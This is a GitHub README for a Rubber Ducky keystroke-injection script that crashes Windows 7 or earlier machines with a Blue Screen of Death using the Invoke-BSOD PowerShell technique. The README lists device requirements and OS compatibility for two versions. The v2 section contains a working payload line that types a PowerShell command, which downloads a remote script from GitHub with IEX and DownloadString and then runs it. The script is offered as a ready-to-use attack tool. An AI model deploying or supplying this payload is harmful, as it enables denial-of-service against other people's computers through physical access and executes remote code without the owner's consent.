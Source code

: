 # BQOD-tHE_bLUE_qUACK_oF-dEATH-
A script for Rubber Ducky which uses the Invoke-bsod powershell technique to trigger a Blue Screen of Death

</BR>

</BR>


https://github.com/peewpw/Invoke-BSOD


</BR>

![Alt text](https://github.com/JonnyBanana/BQOD-tHE_bLUE_qUACK_oF-dEATH-/blob/master/img/DUCKY-KILLERS.jpg)


</BR>

<h2>v1</h2>

</br>

<h3> Requirements</h3>

</br>

-Twin Duck Firmware

-Rubber Ducky Must be Named "_"

</BR>

<h3>Os Compatibility</h3>
  
</BR>

-Windows 7 or Earlier

</BR>

![Alt text](https://raw.githubusercontent.com/JonnyBanana/BQOD-tHE_bLUE_qUACK_oF-dEATH-/master/img/BQOD.JPG)

</BR>

<h2>v2</h2>

</br>

<h3>Requirements</h3>

</br>

-None

<h3>Os Compatibility</h3>

</BR>

-Windows 7 or Earlier

</BR>

STRING powershell IEX((New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/peewpw/Invoke-BSOD/master/Invoke-BSOD.ps1'));Invoke-BSOD

</BR>

